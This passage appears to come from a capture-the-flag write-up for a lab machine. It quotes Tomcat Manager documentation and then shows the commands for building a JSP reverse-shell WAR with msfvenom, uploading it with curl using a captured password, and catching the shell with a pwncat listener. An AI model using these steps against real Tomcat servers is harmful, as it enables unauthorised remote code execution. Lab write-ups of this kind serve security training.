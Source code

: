 > All commands that the Manager application knows how to process are specified in a single request URI like this:
>
> `http://{host}:{port}/manager/text/{command}?{parameters}`
>
> where {host} and {port} represent the hostname and port number on which Tomcat is running, {command} represents the Manager command you wish to execute, and {parameters} represents the query parameters that are specific to that command. In the illustrations below, customize the host and port appropriately for your installation.
>
> The commands are usually executed by HTTP GET requests. The /deploy command has a form that is executed by an HTTP PUT request.

Then we can read **Deploy A New Application Archive (WAR) Remotely**.

> `http://localhost:8080/manager/text/deploy?path=/foo`
>
> Upload the web application archive (WAR) file that is specified as the request data in this HTTP PUT request, install it into the appBase directory of our corresponding virtual host, and start, deriving the name for the WAR file added to the appBase from the specified path. The application can later be undeployed (and the corresponding WAR file removed) by use of the /undeploy command.
>
> This command is executed by an HTTP PUT request.

Let's craft a WAR reverse shell.

```
$ msfvenom --list payloads | grep -i jsp
    java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell

$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=9999 -f war > revshell.war
```

```
$ curl -X PUT -u 'tomcat':'$3cureP4s5w0rd123!' -T revshell.war 'http://tabby.htb:8080/manager/text/deploy?path=/cyfun'
OK - Deployed application at context path [/cyfun]
```

Now the http://megahosting.htb:8080/cyfun/.

Let's start a listener with [pwncat][pwncat].

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.194:39776 (family 2/IPv4, TCP)
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$
```
